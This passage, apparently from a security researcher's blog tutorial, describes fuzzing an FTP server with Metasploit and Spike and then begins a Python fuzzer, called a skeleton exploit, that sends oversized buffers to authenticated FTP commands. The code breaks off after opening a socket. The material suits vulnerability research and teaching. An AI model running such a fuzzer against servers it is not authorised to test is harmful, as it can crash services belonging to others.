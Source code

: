 ![screenshot](/assets/images/freeftpd/msf_ftp_fuzz.PNG)

So I copy-pasted all of those FTP commands into a Spike template that looked like this:

![screenshot](/assets/images/freeftpd/spike_fuzz.PNG)

Unfortunately, nothing broke outright; however, I did notice that the application became REALLY slow after running Spike, so I decided to write my own fuzzer to have a little better understanding of what I was sending. This also became a skeleton exploit for later use.

```python
#!/usr/bin/env python
"""
Description: Post-Authentication FTP Fuzzer
Author: Cody Winkler
Contact: @c2thewinkler (twitter)
Date: 11/26/2019
"""

import socket
from struct import pack
import sys

host = sys.argv[1]
port = int(sys.argv[2])


username = "USER anonymous\r\n"
password = "PASS test\r\n"

buffer = "A"*1000
buffer += "\r\n"

commands = ["STOR ", "SIZE ", "SYST ", "MLIST ", "PWD ", "DIR ", "UMASK ", "RENAME ", "ACCT ", "ABOR ", "HOST ", "APPE ", "RMD ", "LS ", "GET ", "PUT ", "PASS "]

try:
    print "[+] Connecting to target"
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
```